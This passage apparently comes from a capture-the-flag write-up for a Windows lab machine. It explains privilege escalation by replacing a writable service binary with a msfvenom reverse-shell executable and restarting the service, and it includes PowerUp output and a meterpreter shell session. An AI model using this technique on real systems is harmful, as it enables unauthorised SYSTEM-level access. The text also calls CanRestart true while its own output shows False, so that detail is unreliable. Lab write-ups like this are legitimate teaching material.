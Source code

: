 ```
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'LiveUpdateSvc'
CanRestart                      : False
Name                            : LiveUpdateSvc
Check                           : Modifiable Service Files
```

`AdvancedSystemCareService9`

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Use msfvenom to generate a reverse shell as an Windows executable.

![](https://i.imgur.com/ieeJUME.png)

Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.

Note: The service showed up as being unquoted (and could be exploited using this technique), however, in this case we have exploited weak file permissions on the service files instead.

```
meterpreter > shell
Process 1812 created.
Channel 14 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>cd "C:\Program Files (x86)\IObit\"
cd "C:\Program Files (x86)\IObit\"

C:\Program Files (x86)\IObit>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Program Files (x86)\IObit

11/18/2020  11:30 AM    <DIR>          .
11/18/2020  11:30 AM    <DIR>          ..
11/18/2020  11:24 AM    <DIR>          Advanced SystemCare
11/18/2020  11:29 AM             7,168 Advanced.exe
09/26/2019  09:35 PM    <DIR>          IObit Uninstaller
09/26/2019  07:18 AM    <DIR>          LiveUpdate
               1 File(s)          7,168 bytes
               5 Dir(s)  44,169,838,592 bytes free

C:\Program Files (x86)\IObit>sc qc AdvancedSystemCareService9
sc qc AdvancedSystemCareService9
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Program Files (x86)\IObit>sc query AdvancedSystemCareService9
```